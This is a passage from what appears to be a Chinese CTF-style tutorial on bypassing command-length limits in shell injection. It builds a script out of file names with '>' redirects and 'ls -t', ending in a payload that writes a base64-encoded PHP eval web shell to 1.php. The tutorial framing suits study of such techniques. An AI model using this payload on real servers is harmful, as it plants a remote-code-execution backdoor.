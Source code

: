 ```php
>id
>root
*
uid=0(root) gid=0(root) 组=0(root)
```

> 增加字母来限定被用来当作命令和参数的文件

```text
>ls
>lss
>lsss
*s
lss  lsss
```

> rev将输出内容导致， dir将当前文件列出且不换行

```text
>rev
echo 1234 > v
*v （等同于命令：rev v）
ls -t >0
```

所以我们需要构造的文件名为：`0< ht- sl`(这里需要用ls 的参数h 将t往前拉)，所以最终payload如下:

```text
>dir
>e\>
>ht-
>sl
ls>a
```

![img](https://pic2.zhimg.com/80/v2-f1bce13a42370b2fbe4852319189672d_1440w.jpg)

```text
>dir
>f\>
>ht-
>sl
*>v
>rev
*v>0
[root@localhost test]# cat 0
ls  -th  >f
```

**payload如下**

```text
>hp
>p\\
>1.\\
>\>\\
>-d\\
>\}\\
>IFS\\
>\{\\
>\$\\
>base64\\
>\|\\
>PD9waHAgZXZhbCgkX0dFVFsxXSk7\\        # 这里是因为我偷懒了，忽略字符长度限制的payload，实际上这里按照思路一个字母一个字母的分割也是没问题的
>echo\ \\
```
